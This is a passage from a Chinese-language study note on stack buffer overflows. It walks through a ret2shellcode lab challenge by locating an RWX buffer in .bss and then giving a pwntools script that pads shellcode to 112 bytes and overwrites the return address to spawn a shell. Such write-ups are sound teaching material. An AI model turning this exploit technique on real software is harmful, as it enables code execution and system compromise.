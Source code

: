 会有把s复制到buf2的操作，看一下buf2在.bss段：

![image-20220115130618479](栈溢出学习.assets/image-20220115130618479.png)

利用gdb的`vmmap`看一下权限：

![image-20220115130707677](栈溢出学习.assets/image-20220115130707677.png)

buf2所在的`0x0804A080`正好位于`0x804a00 0x804b00`中间，且具有RWX权限，可执行权限。

利用pwntools生成一下shellcode然后填充，注意是左填充，如果不够112长度的话拿a补齐：

```shell
from pwn import *
context(log_level="debug",arch="i386",os="linux")
p = process("./ret2shellcode")
#gdb.attach(p)
target = 0x0804A080
shellcode = asm(shellcraft.sh())
payload = shellcode.ljust(112,b'a')+p32(target)
p.sendline(payload)
p.interactive()

```
